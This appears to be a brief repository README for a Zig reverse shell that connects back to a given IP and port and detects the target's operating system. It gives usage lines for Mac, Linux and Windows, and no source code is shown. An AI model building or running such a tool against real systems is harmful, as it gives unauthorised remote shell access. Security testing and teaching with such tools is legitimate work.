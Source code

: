 # Standard Library Reverse Shell

A simple reverse shell implemented with Zig's standard library networking API. This reverse shell will alto detect the target system.

**Mac & Linux**

```bash
Usage: ./std_reverse_shell <IP> <PORT>
```

**Windows**

```ps1
Usage: .\std_reverse_shell.exe <IP> <PORT>
```
